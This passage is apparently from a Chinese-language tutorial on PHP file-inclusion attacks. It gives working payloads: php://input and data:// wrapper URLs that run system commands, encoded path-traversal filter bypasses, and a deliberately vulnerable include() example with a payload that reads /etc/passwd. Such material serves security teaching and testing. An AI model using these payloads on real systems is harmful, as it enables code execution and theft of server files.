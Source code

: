             <?php system('id'); ?>
            ```
    *   **结果**: 服务器会将 POST 请求体中的内容当作 PHP 代码通过 `include` 执行。

*   **`data://` (执行内联数据)**: 数据流包装器 (RFC 2397)，允许将数据直接嵌入 URL 中。需要 `allow_url_fopen = On` (通常默认开启)。如果 `allow_url_include = On` 也开启，可以用来执行代码。
    *   **构造 URL**:
        ```
        # 执行 phpinfo()
        http://vulnerable.com/index.php?page=data:text/plain,<?php%20phpinfo();%20?>
        # 执行 system('ls')，使用 Base64 编码避免特殊字符问题
        # <?php system('ls'); ?> -> PD9waHAgc3lzdGVtKCdscycpOyA/Pg==
        http://vulnerable.com/index.php?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCdscycpOyA/Pg==
        ```
    *   **分解**: `data:` 协议头, `[mediatype][;base64],<data>`。 Mime-type 可以是 `text/plain`。

*   **其他协议**: PHP 支持多种协议，在特定场景下可能有用：
    *   `file://` — 访问本地文件系统 (默认)。
    *   `http://`, `https://` — 访问 HTTP(s) 网址 (需 `allow_url_fopen=on`，RFI 时需 `allow_url_include=on`)。
    *   `ftp://`, `ftps://` — 访问 FTP(s) URLs (需 `allow_url_fopen=on`)。
    *   `zlib://` — 压缩流。
    *   `glob://` — 查找匹配的文件路径模式。
    *   `ssh2://` — Secure Shell 2。
    *   `expect://` — 处理交互式的流。

#### 4. 绕过过滤与混淆 (Bypassing Filters and Obfuscation)

开发者可能会使用函数（如 `str_replace`, `preg_replace`）过滤掉敏感字符或路径模式。

*   **绕过路径遍历过滤 (`../`, `..\`)**:
    *   **编码**:
        *   URL 编码: `../` -> `%2e%2e%2f`
        *   双重 URL 编码: `../` -> `%252e%252e%252f` (如果应用解码两次)
        *   UTF-8 编码: `.` -> `%c0%ae`, `/` -> `%c0%af`, `\` -> `%c1%9c` (较少见，取决于服务器环境)
    *   **嵌套/混淆**: 如果过滤不够严谨（例如只替换一次或只匹配精确字符串），可以尝试：
        *   `....//` 或 `....\/`: 如果 `../` 被替换为空，`....//` 可能变成 `../`。
        *   `..%2f` 或 `..%5c`: 混合编码。
        *   `%2e%2e/`: 只编码点。
        *   `..././..././`: 插入无意义的路径段。
    *   **绝对路径**: 如果知道 Web 应用的根目录或敏感文件的绝对路径，直接使用绝对路径可以绕过相对路径的过滤。
        `?page=/var/www/html/config.php`
        `?page=C:/xampp/htdocs/secret.txt`

*   **绕过基础目录限制**: 有些应用强制路径必须以特定目录开头，并过滤 `../..`。
    *   **示例代码**:
        ```php
        function containsStr($str, $subStr){
            return strpos($str, $subStr) !== false;
        }
        if(isset($_GET['page'])){
            // 要求必须包含 /var/www/html 且不能包含 ../..
            if(!containsStr($_GET['page'], '../..') && containsStr($_GET['page'], '/var/www/html')){
                include $_GET['page'];
            } else {
                echo 'You are not allowed...';
            }
        }
        ```
    *   **绕过 Payload**: 在必需的基础目录后附加非标准但有效的遍历序列。
        `?page=/var/www/html/..//..//..//etc/passwd`